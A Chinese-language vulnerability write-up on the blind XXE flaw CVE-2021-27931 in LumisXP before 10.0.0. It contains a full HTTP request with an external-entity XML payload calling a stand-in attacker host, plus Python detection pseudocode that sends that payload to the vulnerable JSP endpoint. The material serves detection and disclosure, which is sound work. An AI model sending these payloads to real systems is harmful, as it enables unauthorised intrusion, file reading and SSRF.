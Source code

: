 # LumisXP <10.0.0 XXE 漏洞（CVE-2021-27931）

## 漏洞简介
LumisXP（Lumis Experience Platform）10.0.0 之前版本存在未认证的盲 XXE（XML 外部实体注入）漏洞。攻击者可通过向 PageControllerXml.jsp API 发送特制 XML 请求，利用 XXE 机制读取服务器本地文件、发起 DoS 或进一步攻击内网。

## 影响范围
- 受影响产品：LumisXP < 10.0.0
- CPE: `cpe:2.3:a:lumis:lumis_experience_platform:*:*:*:*:*:*:*:*`

## 漏洞原理
后端 XML 解析器未禁用外部实体，导致攻击者可通过构造恶意 XML 数据包，诱使服务器解析外部实体，实现文件读取、SSRF、DoS 等攻击。

## 利用方式与攻击流程
1. 攻击者构造包含外部实体的 XML 数据包。
2. 发送 POST 请求到 `/lumis/portal/controller/xml/PageControllerXml.jsp`。
3. 若服务器存在漏洞，将访问攻击者控制的 URL（如 OAST/Interactsh），可实现盲 XXE 检测。

## 探测原理与流程
### 请求包示例
```http
POST /lumis/portal/controller/xml/PageControllerXml.jsp HTTP/1.1
Host: target.com

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY xxe SYSTEM "http://attacker-oast-url">]>
<method name="addPage">
<id>&xxe;</id>
</method>
```

### 响应与判定逻辑
- 通过 OAST/Interactsh 等平台，检测是否有来自目标服务器的 HTTP 请求。
- 若有外部访问，说明存在 XXE 漏洞。

### 伪代码
```python
xml_payload = '''<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY xxe SYSTEM "http://attacker-oast-url">]>
<method name="addPage">
<id>&xxe;</id>
</method>'''
resp = requests.post('http://target.com/lumis/portal/controller/xml/PageControllerXml.jsp', data=xml_payload)
if oast_platform.has_interaction():
    print('存在 XXE 漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[构造 XXE XML 数据包]
    B --> C[发送 POST 请求]
    C --> D[OAST/Interactsh 监听]
    D --> E{是否收到外部请求?}
    E -- 否 --> F[不存在漏洞]
    E -- 是 --> G[存在 XXE 漏洞]
```

## 参考链接
- [漏洞 PoC 及分析](https://github.com/sl4cky/LumisXP-XXE---POC/blob/main/poc.txt)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-27931)
- [ARPSyndicate cvemon](https://github.com/ARPSyndicate/cvemon)
- [ARPSyndicate kenzer-templates](https://github.com/ARPSyndicate/kenzer-templates) 